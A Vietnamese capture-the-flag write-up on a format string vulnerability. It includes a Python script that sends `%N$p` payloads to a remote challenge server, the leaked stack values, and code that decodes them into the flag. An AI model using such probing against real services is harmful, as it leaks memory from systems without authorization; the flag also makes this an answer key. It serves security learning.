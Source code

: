 <img width="542" height="213" alt="image" src="https://github.com/user-attachments/assets/38d82ef6-1ce2-450b-8f89-84052a38be99" />  

Kiểm tra cơ bản:  

<img width="888" height="215" alt="image" src="https://github.com/user-attachments/assets/00e2b428-0f4a-4b3d-9489-0a72968da01a" />  

Phân tích bằng IDA:  

<img width="861" height="476" alt="image" src="https://github.com/user-attachments/assets/65f0d4a7-9265-45a5-8800-2319ad618683" />  

Lỗ hổng ở vị trí:  

<img width="423" height="127" alt="image" src="https://github.com/user-attachments/assets/967c4d4c-54e8-434f-bc10-226e38c4ffa9" />  

`printf(format);` là lỗ hổng format string, vì dữ liệu người dùng nhập (format) được truyền trực tiếp mà không có định dạng `(%s, %d, v.v.).`  
Nghĩa là chỉ cần nhập thêm gì đó, hệ thống tự in ra những thứ không cần thiết.  
Mục tiêu sẽ là đưa rất nhiều payload vào hệ thống và để nó in ra vị trí (offset) đang lưu giá trị của : <img width="254" height="43" alt="image" src="https://github.com/user-attachments/assets/0a1df5fb-ac19-4fa1-bc48-18b8ce5336ac" />  

Script khai thác để in ra vị trí offset từ 1-50:  
```python
import socket
import time

HOST = "43.205.113.100"
PORT = 8233

for i in range(1, 50):
    try:
        with socket.create_connection((HOST, PORT), timeout=2) as s:
            payload = f"Y\n%{i}$p\n"
            s.sendall(payload.encode())

            time.sleep(0.2)  # Cho server có thời gian trả lời

            response = b""
            while True:
                try:
                    part = s.recv(1024)
                    if not part:
                        break
                    response += part
                except socket.timeout:
                    break

            print(f"Offset {i}: {response.decode(errors='ignore')}")
    except Exception as e:
        print(f"Offset {i}: ERROR - {e}")

```
Output thu được tương tứng:  
```vim

Offset 1:  0x5a8acc5951b0
Offset 2:  (nil)
Offset 3:  0x734b753cba00
Offset 4:  (nil)
Offset 5:  0x5d0722cde8a0
Offset 6:  0x7ffddb3a2628
Offset 7:  0x100000000
Offset 8:  0x5900000000000002
Offset 9:  0x57b9faced2a0
Offset 10:  0x746369746b616873
Offset 11:  0x58655f3368747b66
Offset 12:  0x5f64337463407274
Offset 13:  0x656974696c696240
Offset 14:  0x6873316e40765f35
Offset 15:  0x3368745f7475625f
Offset 16:  0x33725f67406c665f
Offset 17:  0x7d736e31406d
Offset 18:  0x7024383125
Offset 19:  0x1
Offset 20:  0x652ce40b5040
Offset 21:  0x7682de38383c
Offset 22:  0x6f0
Offset 23:  0x7ffdcb9f9a09
Offset 24:  0x7605a046b000
Offset 25:  0x10101000000
Offset 26:  0x2
Offset 27:  0x178bfbff
Offset 28:  0x7ffc40bbd3e9
Offset 29:  0x64
Offset 30:  0x1000
Offset 31:  0x8a4bdf4856d41b00
Offset 32:  0x1
Offset 33:  0x740b5a72bd90
Offset 34:  (nil)
Offset 35:  0x5aed69ec11e9
Offset 36:  0x1d1b7f1d0
Offset 37:  0x7ffe5c35ec78
Offset 38:  (nil)
Offset 39:  0x6d41aa7d5c4126ff
Offset 40:  0x7ffda573b858
Offset 41:  0x5c35bfcf81e9
Offset 42:  0x5c3243362d98
Offset 43:  0x707850813040
Offset 44:  0xcf4095078ccd63b1
Offset 45:  0xb689b8f6339070ce
Offset 46:  0x720100000000
Offset 47:  (nil)
Offset 48:  (nil)
Offset 49:  (nil)
Offset 50:  (nil)
```
Có thể thấy offset từ vị trí 10-17 khá nghi ngờ ( thật ra là cứ mò bừa tự nhiên nó ra :v ).  
Chuyển từ hex về ASCII là được:  
```python
chunks = [
    0x746369746b616873,
    0x58655f3368747b66,
    0x5f64337463407274,
    0x656974696c696240,
    0x6873316e40765f35,
    0x3368745f7475625f,
    0x33725f67406c665f,
    0x7d736e31406d,
]

flag = b''.join(x.to_bytes(8, 'little') for x in chunks).rstrip(b'\x00')
print(flag.decode())
```
> Mỗi phần tử là một số nguyên 64-bit biểu diễn dưới dạng hex.  
> Các số này được lưu theo little-endian (byte thấp nhất ở vị trí thấp nhất).  
> Mỗi số nguyên được chuyển thành 8 bytes, giữ nguyên thứ tự little-endian  

Peace!



 




